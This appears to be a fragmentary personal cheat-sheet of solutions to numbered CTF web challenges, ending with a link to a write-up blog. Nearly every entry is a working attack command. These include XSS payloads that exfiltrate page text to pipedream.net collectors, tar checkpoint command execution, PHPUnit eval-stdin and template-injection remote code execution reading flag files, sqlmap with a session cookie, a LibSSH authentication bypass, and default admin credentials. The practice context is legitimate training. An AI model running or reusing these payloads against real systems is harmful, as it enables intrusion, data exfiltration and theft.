 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh   nmap -sV -p 30908 --version-light 34.40.24.84
   https://github.com/nikhil1232/LibSSH-Authentication-Bypass  python3 LibAuth.py --host 34.40.24.84 -p 30908 -c "cat /flag.txt"

12 authorization  dirsearch -u IP                     curl -X POST http://34.159.62.179:30798/auth             (aplikacia) ModHeader: Authorization        JWT   <TOKEM>

13 PHPunit  http://35.246.139.54:31380/composer.json    curl -X POST --data '<?php system("id"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


curl -X POST --data '<?php system("cat /flag.txt"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


14. SHARK - curl -X POST http://34.40.24.84:31426 \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "name=<% import os %><% x=os.popen('cat flag').read() %>\${x}"


14


https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)








